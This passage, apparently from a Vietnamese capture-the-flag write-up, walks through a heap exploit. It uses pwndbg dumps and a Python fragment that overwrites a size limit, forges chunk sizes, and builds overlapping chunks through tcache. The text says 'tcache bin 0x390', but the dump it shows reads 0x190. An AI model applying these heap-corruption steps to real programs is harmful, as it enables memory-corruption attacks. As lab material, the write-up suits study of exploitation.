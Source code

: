 - Edit maxsize thành 1 số lớn để ta có thể thoải mái hơn rồi sau đó edit size của chunk vừa malloc thành 0x190.

```python
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555559000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x555555559290
Size: 0x21

Allocated chunk
Addr: 0x5555555592b0
Size: 0x190

Allocated chunk
Addr: 0x555555559440
Size: 0x00

pwndbg> x/20xg 0x5555555592b0-0x20
0x555555559290: 0x0000000000000000      0x0000000000000021
0x5555555592a0: 0xffffffffffffffff      0x0000000000000000   <- edit maxsize
0x5555555592b0: 0x0000000000000000      0x0000000000000190   <- edit size
0x5555555592c0: 0x0000000000000000      0x0000000000000000
0x5555555592d0: 0x0000000000000000      0x0000000000000000
0x5555555592e0: 0x0000000000000000      0x0000000000000000
0x5555555592f0: 0x0000000000000000      0x0000000000000000

```

- Tiếp đến delete chunk trên đưa nó vào tcache bin 0x390
    
    ```python
    pwndbg> bin
    tcachebins
    0x190 [  1]: 0x5555555592c0 ◂— 0x0
    ```
    
- Tạo 3 chunk như sau:
    
    ```python
    create(0x7f)
    delete()
    
    create(0x3e0) #overlapping with chunk 0x7f
    create(0x200) #prevent consolidate topchunk
    create(0x7f) #1
    payload = "\x00"*212
    payload += p64(0x21)
    payload += p64(0xffffffffffffffff)
    payload += p64(0x0)*2
    payload += p64(0x501)
    edit(payload)
    delete()
    ```
    